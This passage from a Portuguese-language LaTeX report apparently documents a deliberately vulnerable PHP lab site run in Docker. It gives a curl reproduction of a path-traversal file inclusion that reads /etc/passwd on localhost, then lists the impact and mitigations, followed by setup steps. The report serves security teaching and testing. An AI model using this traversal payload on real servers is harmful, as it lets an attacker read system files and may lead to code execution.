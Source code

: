   \textbf{Reprodução (terminal).}
  \begin{lstlisting}
  jar=$(mktemp)
  curl -s -c "$jar" -b "$jar" -o /dev/null \
    -d 'email=ivan@avisos.br&senha=aviso123' \
    http://localhost:8080/login.php
  curl -s -c "$jar" -b "$jar" \
    'http://localhost:8080/modelo.php?modelo=../../../../etc/passwd' \
    | grep -o 'root:.*'
  rm -f "$jar"
  \end{lstlisting}
  
  \textbf{Impacto.} Leitura de arquivos sensíveis do sistema (\texttt{/etc/passwd}, configurações).
  Se o alvo incluído for código PHP, pode haver execução. Suporta reconhecimento interno útil à
  Parte~2 (identificação de serviços e caminhos no servidor).
  
  \textbf{Mitigação hipotética.} Mapeamento fixo de modelos permitidos; rejeitar \texttt{..} e
  wrappers; \texttt{basename()}; nunca passar entrada do usuário diretamente a \texttt{include}.
  
  
  \section{Procedimento de implantação}
  
  O passo a passo completo de instalação (Docker Desktop, primeira subida, parada do ambiente,
  recriação do banco com \texttt{docker compose down -v}, credenciais de demonstração e roteiro para
  a banca) está no arquivo \texttt{README.md} do repositório~\cite{repo}. Este relatório resume
  apenas o essencial para reproduzir o ambiente.
  
  Clone (ou atualize) o projeto:
  \begin{lstlisting}
  git clone https://github.com/mativan15/site-vulneravel-para-intrusoes.git
  cd site-vulneravel-para-intrusoes
  \end{lstlisting}
  
  Na pasta do projeto:
  \begin{lstlisting}
  docker compose up -d --build
  \end{lstlisting}
  
  Verificação rápida: \url{http://localhost:8080/login.php} (HTTP 200); \texttt{docker compose exec web php -v}
  deve reportar PHP 5.6.40. O script \texttt{tests/fluxo.sh} automatiza essas checagens e as dos
  cenários de ataque (detalhes no \texttt{README.md}, seção~7).
  
  Em Apple Silicon, a primeira subida do MySQL~5.7 emulado (\texttt{linux/amd64}) pode levar vários
  minutos (detalhes e dicas de diagnóstico no \texttt{README.md}).
  
